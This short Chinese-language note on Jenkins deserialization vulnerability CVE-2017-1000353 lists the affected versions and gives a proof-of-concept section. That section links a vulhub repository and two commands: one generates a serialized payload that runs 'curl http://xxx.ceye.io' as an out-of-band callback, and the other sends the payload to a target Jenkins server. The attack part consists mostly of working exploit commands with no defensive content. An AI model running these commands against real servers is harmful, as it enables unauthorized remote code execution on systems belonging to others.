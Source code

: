 <languages />

影響版本
--------

    Jenkins<=2.56
    Jenkins LTS <= 2.46.1

POC
---

<https://github.com/vulhub/CVE-2017-1000353>

    java  -jar  CVE-2017-1000353-SNAPSHOT-all.jar  jenkins_poc.ser  "curl http://xxx.ceye.io"

    python exploit.py http://x.x.x.x:8080 jenkins_poc.ser